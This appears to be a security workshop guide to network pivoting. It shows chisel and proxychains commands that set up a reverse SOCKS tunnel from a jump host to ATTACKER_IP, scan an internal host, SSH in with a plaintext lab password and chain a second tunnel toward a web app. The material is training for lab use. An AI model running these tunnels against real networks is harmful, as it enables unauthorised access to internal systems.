





# Network Tunneling & Pivoting – Workshop Diagrams

## Network Topology


**Legend**
- Solid lines = native routing reachability between hosts.
- Tunnels / proxies will be overlaid in the flow diagrams below.


## Step‑by‑Step Communication Flows & Commands

### Step 1 – Create a reverse SOCKS proxy via **Jump** (preferred for pivoting)
Goal: Get a SOCKS5 proxy that lets the **attacker** drive traffic through **Jump** into 192.168.80.0/24.

**Commands**
```bash
# On ATTACKER (listen for reverse connections)
chisel server -p 8000 --reverse

# On JUMP (connect out to attacker; create SOCKS on the SERVER side = ATTACKER)
chisel client ATTACKER_IP:8000 R:50001:socks
```
This creates a SOCKS5 listener on the **attacker** at `127.0.0.1:50001`.

**ProxyChains on attacker**
```bash
printf "\nsocks5\t127.0.0.1\t50001\n" | sudo tee -a /etc/proxychains4.conf
```

**Flow Diagram**


### Step 2 – Use ProxyChains through **Jump** to reach **Secure**
With SOCKS on the **attacker**, you can already drive traffic to `192.168.80.30` via Jump.

**Examples**
```bash
# Enumerate Secure’s web app via the Jump SOCKS (remember: ICMP/ping won’t work over SOCKS)
proxychains nmap -sT -Pn 192.168.80.30
```

**Flow Diagram**


### Step 3 – Add a second tunnel **from Secure back to Attacker** using the Jump path
Goal: Expose Secure’s port 80 on the attacker as a local port. This is handy for tools that don’t like SOCKS.

**Commands**
```bash
# Keep the Step 1 chisel server running on attacker (port 8000).
# On SECURE, route the client through the Jump path by using the SOCKS on the attacker (already exists at 127.0.0.1:50001)
# We’ll daisy-chain with proxy support so Secure can reach the attacker through Jump.

# On SECURE (first, SSH in from attacker via proxychains):
proxychains ssh root@192.168.80.30
# Password: Aa123456

# On SECURE (once logged in):
chisel server --socks5 -p 8001

# On ATTACKER
chisel client --proxy socks://127.0.0.1:50001 192.168.80.30:8001 50002:socks
```

**Result:** Attackers port 50002 tunnels traffic to Secure through Jump.

**Flow Diagram**


**Update ProxyChains**
```bash
sed -i 's/50001/50002/' /etc/proxychains4.conf
```

---

### Step 4 – Exploit the web app
Use proxychains to route traffic through the SOCKS:50002 proxy to access Secure:80.

**Examples**
```bash
proxychains bash

# Access Secure:80
curl -i http://127.0.0.1:80/
```

### Finally

## Notes & Gotchas
- **DNS over SOCKS**: enable `proxy_dns` in `/etc/proxychains4.conf` if you need name resolution through the proxy.
- **ICMP isn’t proxied** via SOCKS (expect `ping` to fail). Use TCP scans (`-sT`) with `-Pn`.
- **Stability**: prefer `dynamic_chain` in ProxyChains; avoid `strict_chain` while testing.

